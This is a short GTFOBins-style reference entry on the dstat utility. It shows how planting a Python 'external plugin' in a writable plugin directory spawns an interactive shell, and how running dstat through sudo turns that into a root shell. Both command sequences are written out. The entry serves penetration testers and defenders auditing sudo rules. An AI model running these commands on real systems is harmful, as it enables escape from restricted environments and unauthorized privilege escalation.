 # GTFOBin: dstat

`dstat` allows you to run arbitrary `python` scripts loaded as “external plugins” if they are located in one of the directories stated in the `dstat` man page under “FILES”:

1. `~/.dstat/`
2. `(path of binary)/plugins/`
3. `/usr/share/dstat/`
4. `/usr/local/share/dstat/`

Pick the one that you can write into.

## Shell

It can be used to break out from restricted environments by spawning an interactive system shell.

```
mkdir -p ~/.dstat
echo 'import os; os.execv("/bin/sh", ["sh"])' >~/.dstat/dstat_xxx.py
dstat --xxx
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```
echo 'import os; os.execv("/bin/sh", ["sh"])' >/usr/local/share/dstat/dstat_xxx.py
sudo dstat --xxx
```